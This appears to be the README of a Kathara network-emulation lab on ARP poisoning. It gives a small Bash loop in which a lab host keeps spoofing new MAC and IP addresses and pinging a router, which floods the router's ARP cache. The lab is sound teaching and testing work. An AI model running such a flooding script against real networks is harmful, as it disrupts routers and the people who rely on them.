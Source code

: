# ARP POISONING

NETWORK TOPOLOGY

<div align="center">
  <img src="https://github.com/mariocuomo/kathara-testing/blob/main/labs/arp_poisoning/schema.png" width="800">
</div>


Cindy sends continuous pings to the router with **different** ip and mac addresses.<br>
The router is forced each time to insert a **new dummy** entry in its arp cache.

Cindy's malicious script is located in _/var/script/script.sh_

```Bash
while true
do
   macaddres=$(macaddressgenerator)

   ip_address=$(ipgenerator)
   echo $ip_address

   #CHANGE MACADDRESS
   ifconfig eth0 down hw ether $macaddres
   ifconfig eth0 up

   #CHANGE IP
   ifconfig eth0 down
   ifconfig eth0 inet $ip_address

   ping 175.11.14.2 -c 1
done
```






